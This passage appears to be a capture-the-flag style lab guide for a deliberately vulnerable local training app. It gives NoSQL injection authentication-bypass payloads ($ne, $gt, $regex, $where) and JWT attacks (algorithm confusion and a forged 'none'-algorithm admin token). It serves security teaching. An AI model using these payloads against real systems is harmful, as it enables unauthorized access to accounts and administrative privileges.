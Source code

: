 
### NoSQL Injection Lab

**Lab URL:** `http://localhost:5000/api/vuln/nosql-injection`

**Objective:** Exploit NoSQL injection in MongoDB-style queries with advanced operators.

#### Step 1: Authentication Bypass
1. **NoSQL injection payloads:**
   ```
   {"$or": [{"username": "admin"}, {"username": {"$ne": ""}}]}
   {"username": {"$regex": ".*"}, "password": {"$ne": ""}}
   ```
2. **Screenshot Location:** Save successful bypass

#### Step 2: $gt Operator Bypass ⭐
**Bypass Technique:** Use greater-than operator for authentication bypass
1. **Payload:** `username={"$gt":""}`
2. **Flag:** `{NOSQL_GT_OPERATOR_BYPASS}`

#### Step 3: $regex Operator Bypass ⭐
**Bypass Technique:** Use regex for pattern-based bypass
1. **Payload:** `username={"$regex":"^a"}`
2. **Flag:** `{NOSQL_REGEX_INJECTION}`

#### Step 4: $where JavaScript Execution ⭐
**Bypass Technique:** Execute JavaScript via $where clause
1. **Payload:** `username={"$where":"1==1"}`
2. **Flag:** `{NOSQL_WHERE_CODE_EXECUTION}`
3. **Screenshot Location:** Save all bypass methods

---

### JWT Manipulation Lab

**Lab URL:** `http://localhost:5000/api/vuln/jwt-manipulation`

**Objective:** Exploit JWT vulnerabilities including algorithm confusion and bypass techniques.

#### Step 1: Algorithm Confusion
1. **Change RS256 to HS256 in JWT header**
2. **Use public key as HMAC secret**
3. **Screenshot Location:** Save successful token manipulation

#### Step 2: "none" Algorithm Bypass ⭐
**Bypass Technique:** Remove signature verification by using "none" algorithm
1. **Modify JWT header:**
   ```json
   {"alg":"none","typ":"JWT"}
   ```
   Base64: `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0`
   
2. **Modify JWT payload:**
   ```json
   {"sub":"1234567890","name":"Guest","admin":true}
   ```
   Base64: `eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6Ikd1ZXN0IiwiYWRtaW4iOnRydWV9`
   